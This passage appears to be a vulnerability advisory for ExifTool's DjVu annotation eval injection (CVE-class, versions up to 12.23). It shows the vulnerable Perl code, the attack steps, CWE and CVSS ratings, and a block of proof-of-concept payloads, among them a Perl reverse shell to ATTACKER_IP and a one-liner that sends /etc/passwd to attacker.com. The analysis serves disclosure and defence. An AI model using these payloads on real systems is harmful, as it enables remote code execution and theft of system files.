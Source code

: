 ### Vulnerable Code Analysis
```perl
# VULNERABLE CODE (v12.23)
$tok =~ s{\\(.)|([\$\@]|\\$)}{'\\'.($2 || $1)}sge;  # Insufficient protection
$tok = eval qq{"$tok"};  # DANGEROUS: Direct eval of user input
```

The vulnerability occurs when ExifTool processes DjVu files containing annotation chunks (ANTa or ANTz). The `ParseAnt()` function uses Perl's `eval` function with double-quoted string interpolation to process escape sequences, allowing arbitrary Perl code execution.

### Attack Mechanism
1. **File Upload/Processing:** Attacker provides malicious DjVu file to target system
2. **Automatic Processing:** ExifTool processes the file and calls `ProcessAnt()` for annotation chunks
3. **Code Injection:** Malicious Perl code in quoted annotation strings gets passed to `eval`
4. **Code Execution:** Arbitrary Perl code executes with ExifTool's privileges

### Proof of Concept Payloads
```perl
# Basic command execution
"; system('id; whoami; pwd'); "

# Reverse shell establishment
"; use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp')); connect(S,sockaddr_in(4444,inet_aton('ATTACKER_IP'))); open(STDIN,'>&S'); open(STDOUT,'>&S'); open(STDERR,'>&S'); exec('/bin/sh -i'); "

# Data exfiltration
"; use LWP::Simple; get('http://attacker.com/exfil?data='.`cat /etc/passwd | base64 -w0`); "
```

---

## SECURITY FRAMEWORK CLASSIFICATIONS

### CVE Assessment
**Recommendation:** CVE-WORTHY CRITICAL VULNERABILITY
- **Component:** ExifTool DjVu.pm module
- **Affected Versions:** ≤12.23 (Fixed in 12.24)
- **Attack Vector:** Malicious DjVu file processing

### CWE Classifications
- **Primary:** CWE-95 (Improper Neutralization of Directives in Dynamically Evaluated Code - 'Eval Injection')
- **Secondary:** CWE-94 (Improper Control of Generation of Code - 'Code Injection')

### CVSS 3.1 Scoring
**Base Score: 9.8 (CRITICAL)**
- Attack Vector: Network (AV:N)
- Attack Complexity: Low (AC:L)
- Privileges Required: None (PR:N)
- User Interaction: None (UI:N)
- Scope: Unchanged (S:U)
- Confidentiality Impact: High (C:H)
- Integrity Impact: High (I:H)
- Availability Impact: High (A:H)
